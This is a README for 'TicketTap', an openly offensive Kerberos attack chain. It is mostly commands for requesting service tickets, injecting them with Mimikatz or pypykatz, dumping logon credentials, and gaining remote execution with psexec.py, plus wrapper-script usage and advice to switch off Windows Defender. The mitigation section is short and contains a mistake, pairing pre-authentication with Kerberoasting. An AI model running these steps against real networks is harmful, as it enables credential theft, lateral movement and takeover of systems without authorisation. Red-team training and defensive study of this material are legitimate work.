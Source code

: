 # TicketTap: Remote Code Execution, Lateral Movement, Authentication Bypass, and Privilege Escalation via Kerberos TGS Exploitation

**TicketTap** is a multi-faceted vulnerability exploitation chain leveraging **Kerberos TGS (Ticket Granting Service) tickets** to achieve **Remote Code Execution (RCE)**, **Lateral Movement**, **Authentication Bypass**, and **Privilege Escalation** within a networked environment. This exploit allows attackers to bypass authentication, escalate privileges, and execute arbitrary commands remotely by injecting Kerberos TGS tickets into memory.

---

## Table of Contents
- [Overview](#overview)
- [Exploitation Chain Summary](#exploitation-chain-summary)
- [Detailed Steps for TicketTap](#detailed-steps-for-tickettap)
  - [Step 1: Obtain a TGS Ticket](#step-1-obtain-a-tgs-ticket)
  - [Step 2: Inject the TGS Ticket (Pass-the-Ticket)](#step-2-inject-the-tgs-ticket-pass-the-ticket)
  - [Step 3: Access the Target via RDP or SMB](#step-3-access-the-target-via-rdp-or-smb)
  - [Step 4: Privilege Escalation](#step-4-privilege-escalation)
  - [Step 5: Remote Code Execution (RCE)](#step-5-remote-code-execution-rce)
- [Running the Provided Scripts](#running-the-provided-scripts)
  - [Bash Script (macOS/Linux)](#bash-script-macoslinux)
  - [PowerShell Script (Windows)](#powershell-script-windows)
- [Setting Up the Environment](#setting-up-the-environment)
  - [macOS/Linux Setup](#macoslinux-setup)
  - [Windows Setup](#windows-setup)
- [Mitigation Strategies](#mitigation-strategies)
- [Tools Used](#tools-used)
- [Disclaimer](#disclaimer)

---

## Exploitation Chain Summary

The **TicketTap** exploitation chain follows these key steps:
1. **Obtain a TGS Ticket** using **SPN querying**.
2. **Inject the TGS** into the current session using **Mimikatz** or **pypykatz** (Pass-the-Ticket).
3. **Authenticate** to target services such as **RDP** or **SMB**.
4. **Escalate Privileges** to a highly privileged account.
5. **Execute Remote Code** using **PsExec** or other tools to gain control of the target machine.

---

## Detailed Steps for TicketTap

### Step 1: Obtain a TGS Ticket

You can extract TGS tickets for service accounts using **Impacket's `GetUserSPNs.py`**:
```bash
python3 GetUserSPNs.py <domain>/<username>:<password> -request
```
This will output the **$krb5tgs$** format hash.

### Step 2: Inject the TGS Ticket (Pass-the-Ticket)

Inject the TGS ticket using **Mimikatz** or **pypykatz**.

#### Mimikatz (Windows):
```bash
mimikatz# kerberos::ptt <path_to_tgs.kirbi>
```

#### pypykatz (macOS/Linux):
```bash
python3 pypykatz kerberos ptt <path_to_tgs.kirbi>
```

### Step 3: Access the Target via RDP or SMB

#### RDP (Windows):
```bash
mstsc /v:<target-ip>
```

#### RDP (macOS/Linux):
```bash
rdesktop <target-ip>
```

### Step 4: Privilege Escalation

Leverage tools like **Mimikatz** to extract further credentials and escalate privileges:
```bash
mimikatz# sekurlsa::logonpasswords
```

### Step 5: Remote Code Execution (RCE)

Use **PsExec** to run commands on the target machine.

#### PsExec (Windows):
```bash
python3 psexec.py <username>@<domain> -k -no-pass <target-ip>
```

---

## Running the Provided Scripts

### Bash Script (macOS/Linux)

To use the **Bash script** with **pypykatz** for macOS/Linux, follow the instructions below:

#### Example Usage:
```bash
./tickettap.sh -u Username -t /path/to/TGS.kirbi -m /path/to/pypykatz -ip <ip addr>
```

- This injects the **TGS** for user `Username` and attempts an RDP connection to the target IP.
- If you want to use **PsExec**, provide the `-psexec`, `-d`, and `-pu` flags as well.

#### Flags:
- `-u`: Username for the TGS.
- `-t`: Path to the `.kirbi` file.
- `-m`: Path to **pypykatz**.
- `-ip`: Target IP for **RDP**.
- `-psexec`: Path to **Impacket's `psexec.py`**.
- `-d`: Domain name for **PsExec**.
- `-pu`: Username for **PsExec**.

### PowerShell Script (Windows)

For **Windows**, use the PowerShell script to inject a **TGS** and attempt an RDP connection or **PsExec**.

#### Example Usage:
```bash
.\tickettap.ps1 /u Username /t C:\path\to\TGS.kirbi /m C:\path\to\mimikatz.exe /ip <ip addr>
```

- Injects the **TGS** and attempts to establish an RDP connection.
- For **PsExec**, provide `/psexec`, `/domain`, and `/psexecUser`.

---

## Setting Up the Environment

Here are setup commands to create the necessary directories, download scripts, and clone dependencies for **macOS/Linux** and **Windows**.

### macOS/Linux Setup

1. **Create a directory** and **download scripts**:
    ```bash
    mkdir TicketTap && cd TicketTap
    curl -O https://raw.githubusercontent.com/jleuth/TicketTap/refs/heads/main/tickettap.sh > tickettap.sh
    ```

2. **Clone dependencies**:
    ```bash
    curl -O https://raw.githubusercontent.com/fortra/impacket/refs/heads/master/examples/GetUserSPNs.py > GetUserSPNs.py
    pip3 install pypykatz
    ```
    Optionally, psexec.py to substitute for RDP
    ```bash
    curl -O https://raw.githubusercontent.com/fortra/impacket/refs/heads/master/examples/psexec.py > psexec.py
    ```

### Windows Setup

1. **Create a directory** and **download scripts**:
    ```powershell
    mkdir TicketTap && cd TicketTap
    curl -O https://raw.githubusercontent.com/jleuth/TicketTap/refs/heads/main/tickettap.ps1 > tickettap.ps1
    ```

2. **Clone dependencies**:
    ```powershell
    curl -O https://raw.githubusercontent.com/fortra/impacket/refs/heads/master/examples/GetUserSPNs.py > GetUserSPNs.py
    git clone https://github.com/ParrotSec/mimikatz.git 
    ```
    Optionally, psexec.py to substitute for RDP
    ```bash
    curl -O https://raw.githubusercontent.com/fortra/impacket/refs/heads/master/examples/psexec.py > psexec.py
    ```

3. **Build Mimikatz**:
  Annoyingly, Microsoft HATES Mimikatz, and Windows Defender goes fucking NUTS if you dare even download it. Mimikatz is safe, and [FOSS](https://github.com/ParrotSec/mimikatz) so there's nothing to fear. TEMPORARILY disable Real Time Protection in Defender settings, do what you need to do with Mimikatz, then TURN IT BACK ON! Windows Defender is ass, but it's better than nothing.

---

## Mitigation Strategies

To protect against **TicketTap**, consider the following mitigations:
1. **Enable Kerberos pre-authentication** to prevent **Kerberoasting**.
2. **Limit service account privileges** and audit access control.
3. **Monitor Kerberos authentication logs** for anomalies.
4. **Patch Kerberos-related vulnerabilities** to minimize the risk of exploitation.

---

## Tools Used

- **Mimikatz**: Extract and inject Kerberos tickets.
- **pypykatz**: Python-based Kerberos manipulation (macOS/Linux).
- **Impacket**: Tools for querying SPNs, executing PsExec, etc.

---

## Disclaimer

This repository is for **educational purposes** only. Unauthorized use of these techniques on systems without permission is illegal.